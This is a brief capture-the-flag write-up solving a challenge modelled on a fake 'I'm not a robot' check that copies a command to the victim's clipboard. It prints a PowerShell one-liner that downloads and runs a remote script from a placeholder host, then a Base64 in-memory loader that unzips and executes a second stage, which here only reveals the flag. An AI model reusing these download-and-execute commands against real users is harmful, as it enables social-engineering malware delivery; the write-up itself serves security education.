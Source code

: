 # Solution

1. The website has a `I'm not a robot` button.
2. Click on it and instructions will be given.
3. This will be added to the device's clipboard.
```ps1
cmd /c PowerShell.exe "iex ((New-Object System.Net.WebClient).DownloadString('http://<web-hostname>/verify.ps1'))" # 'FREE ROADBLOACKERS VERIFICATION ID: 21402'
```

4. After going to the `/verify.ps1`, you will see this code.
```ps1
powershell -NoP -C "$b=[System.Convert]::FromBase64String('UEsDBBQAAAAIADScj1l1EgLhwgAAAP8AAAALAAAAcGF5bG9hZC5wczFljEFrwkAQRv/KdxBWoS6leJNeiqENQhMU6zEsm4kOXWZ1sotG8b83vbaXd3jwHneYwpxuwWBOZ5hwu5oZ7tgrJ5pXOZ1ygtmW7y+Luzw33aagRqu33bVRrh8GD1Do6V9QqEZF5X1WarE/ciCsIssBX6TcsXeJo1jUgdyYJx3gDo4FwSVSO36Xf461Ut/DyYBvGpAifJTEkslaa5aYSA4Br5h8xD7ZXWk37vJLcu2ahqn5jIU/xqdSfMgtjWoVL2JmP1BLAQIUAxQAAAAIADScj1l1EgLhwgAAAP8AAAALAAAAAAAAAAAAAACkgQAAAABwYXlsb2FkLnBzMVBLBQYAAAAAAQABADkAAADrAAAAAAA=');$m=New-Object System.IO.MemoryStream($b);Add-Type -A 'System.IO.Compression.FileSystem';$e=[System.IO.Compression.ZipFile]::Open($m,'Read').Entries[0].Open();$r=New-Object System.IO.StreamReader($e);IEX $r.ReadToEnd()"
```

5. There is a Base64 file string inside. Convert the Base64 to file. There you will find your flag.
```ps1
if ( 'pzl' -eq 'lzx') { Write-Output 'SIG24{n0_fREe_rOBUx_riP}' } else { Write-Output 'Error Occured While Doing Verification. Please try again later.' }; Write-Output 'Press any key to continue...'; $null = $Host.UI.RawUI.ReadKey('NoEcho,IncludeKeyDown')
```